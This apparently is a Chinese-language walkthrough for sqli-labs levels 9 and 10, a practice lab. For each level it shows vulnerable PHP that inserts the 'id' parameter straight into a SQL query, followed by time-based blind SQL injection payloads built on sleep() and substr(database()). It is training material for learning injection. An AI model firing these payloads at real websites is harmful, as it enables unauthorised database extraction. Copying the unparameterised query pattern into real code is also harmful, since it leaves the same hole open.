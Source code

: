 ```
?id=1' and If(ascii(substr(database(),1,1))=115,sleep(2),1)--+
```
![image](https://note.youdao.com/yws/res/11148/708877B2D9584E4FB30A2133146793DB)

## less-9 
##### index.php
只能延时注入
```
$id=$_GET['id'];
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
if($row){
echo 'You are in...........';
}else{
echo 'You are in...........';	
}
```
#### payload

```
?id=1' and If(ascii(substr(database(),1,1))=115,sleep(2),1)--+
```
## less-10
##### index.php
延时注入
```
$id = '"'.$id.'"';
$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";
if($row){
echo 'You are in...........';
}else{
echo 'You are in...........';
}
```
#### payload

```
?id=1" and If(ascii(substr(database(),1,1))=115,sleep(2),1)--+
```
![image](https://note.youdao.com/yws/res/11163/BA35173342AE4FDBACE4D7F4480EC239)